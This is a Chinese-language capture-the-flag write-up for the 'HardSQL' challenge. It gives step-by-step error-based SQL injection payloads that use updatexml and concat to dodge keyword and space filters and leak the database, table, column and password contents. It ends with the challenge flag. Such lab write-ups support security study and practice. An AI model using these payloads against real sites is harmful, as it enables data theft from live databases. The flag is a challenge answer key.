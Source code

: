 # [极客大挑战 2019]HardSQL 1

- 进入网页，尝试万能账号密码失败，尝试 `1'` 成功

> <img src="../../IMG2/Screenshot 2024-06-03 204358.png">

- 经测试，空格、union、select、orderby等关键字被屏蔽

> <img src="../../IMG2/Screenshot 2024-06-03 204542.png">

- 最终发现报错注入可用

`1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#`

> <img src="../../IMG2/Screenshot 2024-06-03 205436.png">

- 爆数据表

`1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#`

> <img src="../../IMG2/Screenshot 2024-06-03 211707.png">

- 爆字段

`1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema)like(database())),0x7e),1))#`

> <img src="../../IMG2/Screenshot 2024-06-03 212426.png">

- 爆数据

`1'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)where(id)like(1)),0x7e),1))#`

> <img src="../../IMG2/Screenshot 2024-06-04 175747.png">

- 从上图中可以看出数据的长度被限制了，可以使用 `substr()` 或者 `right()` ，这道题 `substr()` 被过滤了，因此使用 `right()`

`1'or(updatexml(1,concat(0x7e,(select(right(group_concat(password),25))from(H4rDsq1)where(id)like(1)),0x7e),1))#`

> <img src="../../IMG2/Screenshot 2024-06-04 181926.png">

- 拼接得到flag

`flag{785d2a64-1b32-4ab2-8ca9-c28f7db63a1f}`